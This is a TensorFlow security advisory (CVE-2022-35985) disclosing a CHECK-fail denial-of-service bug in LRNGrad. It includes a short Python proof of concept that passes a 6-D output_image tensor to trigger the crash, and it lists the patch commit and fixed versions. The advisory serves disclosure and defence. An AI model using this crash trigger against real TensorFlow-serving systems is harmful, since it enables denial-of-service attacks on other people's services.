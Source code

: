 ## TFSA-2022-116: `CHECK` fail in `LRNGrad`

### CVE Number
CVE-2022-35985

### Impact
If `LRNGrad` is given an `output_image` input tensor that is not 4-D, it results in a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
depth_radius = 1
bias = 1.59018219
alpha = 0.117728651
beta = 0.404427052
input_grads = tf.random.uniform(shape=[4, 4, 4, 4], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2033)
input_image = tf.random.uniform(shape=[4, 4, 4, 4], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2033)
output_image = tf.random.uniform(shape=[4, 4, 4, 4, 4, 4], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2033)
tf.raw_ops.LRNGrad(input_grads=input_grads, input_image=input_image, output_image=output_image, depth_radius=depth_radius, bias=bias, alpha=alpha, beta=beta)
```

### Patches
We have patched the issue in GitHub commit [bd90b3efab4ec958b228cd7cfe9125be1c0cf255](https://github.com/tensorflow/tensorflow/commit/bd90b3efab4ec958b228cd7cfe9125be1c0cf255).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Di Jin, Secure Systems Labs, Brown University
